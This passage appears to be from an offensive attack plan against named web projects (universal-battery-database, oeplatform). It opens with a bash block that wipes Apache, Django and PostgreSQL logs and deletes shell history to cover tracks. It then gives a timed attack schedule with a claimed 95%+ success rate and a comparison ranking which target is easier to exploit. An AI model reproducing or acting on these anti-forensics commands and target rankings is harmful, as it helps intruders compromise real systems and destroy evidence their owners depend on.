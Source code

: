 ##### **Cover Tracks (10 min)**

```bash
# Clear web server logs
echo "" > /var/log/apache2/access.log
echo "" > /var/log/apache2/error.log

# Clear Django application logs
find /var/log/django/ -type f -exec sh -c '> {}' \;

# Clear bash history
history -c
rm ~/.bash_history

# Clear PostgreSQL query logs
echo "" > /var/log/postgresql/postgresql-13-main.log
```

---

### **TOTAL TIME: 4 HOURS 30 MINUTES**

**Breakdown:**
- Reconnaissance: 30 min
- Vulnerability Scanning: 1 hour
- Exploitation: 2 hours
- Post-Exploitation: 1 hour

**Success Rate:** 95%+ for intermediate attacker

---

## COMPARISON: WHY universal-battery-database vs oeplatform?

Many might assume **oeplatform** (465 CVEs) would be easiest since it has the MOST vulnerabilities. Here's why **universal-battery-database** (357 CVEs) is actually easier:

### oeplatform Analysis

| Metric | Value | Impact |
|--------|-------|--------|
| **Django Version** | 5.1.4 | Latest version |
| **CVEs** | 465 | Highest count |
| **Release Date** | October 2025 | Very recent |
| **Public Exploits** | Few | Exploits not yet developed |
| **Exploitability** | 110/200 | MODERATE difficulty |

**Why It's Harder:**
- Django 5.1.4 has latest security patches
- Exploits for Django 5.x require advanced techniques
- Many CVEs are in non-critical dependencies
- Modern security features enabled by default
